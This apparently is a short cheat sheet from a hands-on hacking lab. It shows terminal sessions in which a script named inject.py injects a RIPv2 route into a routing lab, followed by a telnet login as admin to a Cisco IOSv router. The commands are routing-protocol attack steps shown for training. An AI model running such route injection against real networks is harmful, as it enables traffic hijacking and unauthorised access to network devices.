 ------------------------------------------------------------------------

Inject RIPv2 Route

    root@kali:~/becoming-a-hacker/labs/networking# ./inject.py -h
    WARNING: No route found for IPv6 destination :: (no default route?)
    Usage: inject.py [options]

    Options:
      -h, --help            show this help message and exit
      -i IFACE, --iface=IFACE
                            Interface
      -p PASSWORD, --password=PASSWORD
                            RIPv2 Password
      -r ROUTE, --route=ROUTE
                            RIPv2 Prefix
      -m MASK, --mask=MASK  RIPv2 Subnet Mask
    seccon@pod-XX-kali:~/becoming-a-hacker/labs/networking$ sudo ./inject.py -i eth2 -p  -r 10.1.1.5 -m 255.255.255.255
    WARNING: No route found for IPv6 destination :: (no default route?)
    Attempting to inject RIPv2 route.  It will last about 240 seconds
    .
    Sent 1 packets.

------------------------------------------------------------------------

Log in

    root@kali:~/becoming-a-hacker/labs/networking# telnet 10.1.1.1
    ...
    User Access Verification

    Username: admin
    Password:
    ...
    iosv-r1#
</pre>
{% endcapture %}
{% include cheat.html text=text %}

